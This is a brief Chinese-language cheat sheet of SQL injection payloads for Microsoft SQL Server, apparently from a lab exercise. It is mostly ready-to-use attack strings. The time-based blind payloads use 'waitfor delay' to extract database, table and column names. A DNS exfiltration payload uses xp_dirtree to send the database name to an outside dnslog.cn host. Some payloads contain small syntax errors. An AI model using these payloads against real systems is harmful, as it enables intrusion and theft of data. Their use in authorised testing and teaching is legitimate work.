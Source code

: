 ------

# 时间盲注

#### 判断数据库名长度-->`5`

```sql
id=1'if(len(db_name())=5) waitfor delay '0:0:5' --+
```

#### 获取数据库名

```sql
id=1'if(substring((select db_name),n,1))=m) waitfor delay '0:0::5' --+
```

#### 获取表名长度

```sql
id=1'if(len((select top 1 table_name from information_schema.tables))>10) waitfor delay '0:0:5' --+
```

#### 获取表名

```sql
id=1'if(substring((select top 1 table_name from information_schema.tables),n,1))=m waitfor delay '0:0:5' --+
```

#### 判断字段长度

```sql
id=1' if(len((select top 1 column_name from information_schema.columns))>10) waitfor delay '0:0:5' --+
```

#### 获取字段名

```sql
id=1' if(substring((select top 1 column_name from information_schema.columns),n,1))=m waitfor delay '0:0:5' --+
```



------

# 数据外带

### DNS数据外带

#### 获取数据库名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_dirtree "//'%2B@a%2B'.qu4mx7.dnslog.cn\\a"') --+
```
